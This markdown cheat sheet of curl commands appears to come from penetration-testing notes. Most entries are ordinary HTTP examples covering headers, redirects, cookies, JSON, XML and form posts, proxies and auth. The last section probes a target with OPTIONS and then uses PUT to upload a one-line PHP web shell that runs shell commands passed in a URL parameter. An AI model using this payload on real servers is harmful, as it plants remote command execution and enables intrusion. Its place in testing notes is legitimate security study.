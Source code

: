 # Useful Curl commands

### Get header
```sh
curl -i INSERTIPADDRESS
```
### Curl follow redirects
```sh
curl -i -L INSERTIPADDRESS
```

### Ignore ssl error 
```sh
curl -k https://expired.badssl.com
```

### Curl with cookies
```sh
curl --cookie "Name=Value" https://sample-site.com
curl -b "name1=value1; name2=value2" https://reqbin.com
```

### Curl set USER-AGENT
```sh
curl https://sample-site.com -A "ReqBin Curl Client/1.0"
```

### Set timeout curl
```sh
curl --connection-timeout 5 https://sample-site.com
```

### Post Json Curl
```sh
curl -X POST https://sample-site.com/post/json -H 'Content-Type: application/json' -d '{"login":"my_login","password":"my_password"}'
   ```

### Post with body curl
```sh
curl -X POST https://sample-site.com/post/json -H "Content-Type: application/json" -d '{"productId": 123456, "quantity": 100}'  
   ```

### Send HTTP Header curl
```sh
curl https://sample-site.com/get/json -H "X-Custom-Header: value" -H "Content-Type: application/json"
   ```

### Basic auth curl
```sh
curl https://sample-site.com -u "login:password"
   ```

### Post file using curl
```sh
curl -d @data.json https://sample-site.com/post/json
```

### Curl through proxy
```sh
curl https://sample-site.com -x myproxy.com:8080 -U login:password
   ```

### Curl Follow redirects
```sh
curl https://www.reqbin.com/echo -L
```

### Curl with bearer token authrizaion header
```sh
curl https://sample-site.com/get/json -H "Accept: application/json" -H "Authorization: Bearer {token}"
   ```

### Curl fetching json
```sh
curl https://sample-site.com/get/json -H "Accept: application/json" 
   ```

### Post form data with curl
```sh
curl -X POST https://sample-site.com/post/form -H "Content-Type: application/x-www-form-urlencoded" -d "param1=value1&param2=value2" 
   ```

### Set Content type curl
```sh
curl -X POST https://sample-site.com/post/json -H 'Content-Type: application/json' -H 'Accept: application/json' -d '{"Id": 78912, "Quantity": 1, "Price": 19.00}'
   ```

### Post XML with curl
```sh
curl -X POST https://sample-site.com/post/xml -H "Content-Type: application/xml" -H "Accept: application/xml" -d "<Request><Login>my_login</Login><Password>my_password</Password></Request>"
   ```

### Curl fetch XML
```sh
curl https://sample-site.com/get/xml -H "Accept: application/xml" 
   ```

### Curl send PUT request
```sh
curl -X PUT https://sample-site.com/put/json -d "PUT request data"
```

### Curl send DELETE request
```sh
curl -X DELETE //reqbin.com/sample/delete/json?id=1 -H "Accept: application/json"
 ```
 
### Curl send OPTIONS request
```sh
curl https://api.reqbin.com/api/v1/requests -X OPTIONS -H "Access-Control-Request-Method: POST" -H "Access-Control-Request-Headers: content-type" -H "Origin: https://reqbin.com"
   ```

### Curl send CORS request
```sh
curl -H "Origin: https://example.reqbin.com" https://sample-site.com
   ```
 
 ### Curl convert to PYTHON
 ```sh
 curl -X POST https://sample-site.com/post/json -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
   ```

### Curl convert to Javascript / AJAX Calls
```sh
curl -X POST https://sample-site.com/post/json -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to PHP
```sh
curl -X POST https://sample-site.com/post/json -H "Content-Type: application/json" -d "{\"login\":\"my_login\",\"password\":\"my_password\"}"
```

### Curl convert to HTTP request
```sh
curl https://sample-site.com/get/json -H "Content-Type: application/json" -H "Accept: application/json"
```

### Check if it is possible to upload using put
```sh
curl -v -X OPTIONS http://INSERTIPADDRESS/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://INSERTIPADDRESS/test/shell.php
```